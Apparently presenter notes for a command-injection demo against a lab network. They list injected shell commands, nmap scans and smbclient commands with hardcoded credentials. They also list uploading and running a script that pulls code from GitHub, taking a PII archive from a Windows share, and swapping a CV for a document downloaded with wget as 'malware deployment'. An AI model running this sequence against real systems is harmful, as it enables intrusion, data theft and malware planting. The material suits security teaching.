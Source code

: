 Command Injection Demo:
=======================

Academic:
=========
    Dig through DNS
    Port scan IPs
    Interrogate IP
	HTTP Watch/Fiddler/Postman/Wireshark
	Headers can indicate the stack


Commands:
==========
    Login: wier credentials to connect.hackysock.com
    Browse site… Exploratory work
    Over to the ping utility
        note the command injection flaw.
	    whoami
	    pwd
	    cd ../../
	    ls
	    ifconfig -a | grep netmask
	    which nmap
	    nmap -sP 192.168.122.1/24
	    namp -p 135 192.168.122.7
	    smbclient -N '//192.168.122.7/c$' -W HACKYSOC -U wier%frantic-Folly3 -c ls
        smbclient -N '//192.168.122.7/Private_Files' -W HACKYSOC -U wier%frantic-Folly3 -c ls
	
Find Upload section:
====================
    Upload file: Note the path description
	Figure out where uploads go
	Upload script
	CHMOD script
		chmod 775 ../../hackable/uploads/pull_scripts.sh
	Execute script
		../../hackable/uploads/pull_scripts.sh
	Show all the scripts that were pulled down from GitHub

Drop to Shell:
=================
Show rest of demo and malware deployment. \
	Execute pii script \
	Show pii data pulled from windows machine \
    Show Roger DOC \
        smbclient '//192.168.122.7/c$' -W HACKYSOC -U wier%frantic-Folly3 \
    pull roger doc at CLI \
        smbclient '//192.168.122.7/Private_Files' -c 'lcd /var/tmp; get PII.zip' -W HACYSOC -U wier%frantic-Folly3 \
    Push new DOC to FileShare \
        smbclient '//192.168.122.7/c$' -W HACKYSOC -U wier%frantic-Folly3 \
        Browse to Roger DOC in Private_Files \
        del rogeradamsCV.doc \
        exit \
        cd /var/tmp \
        wget https://github.com/rnewt6926/Ingram/blob/main/rogeradamsCV.doc \
        smbclient '//192.168.122.7/Private_Files' -c 'lcd /var/tmp; put rogeradamsCV.doc' -W HACKYSOC -U wier%frantic-Folly3 \


Wrap up:
========
    Now we wait \
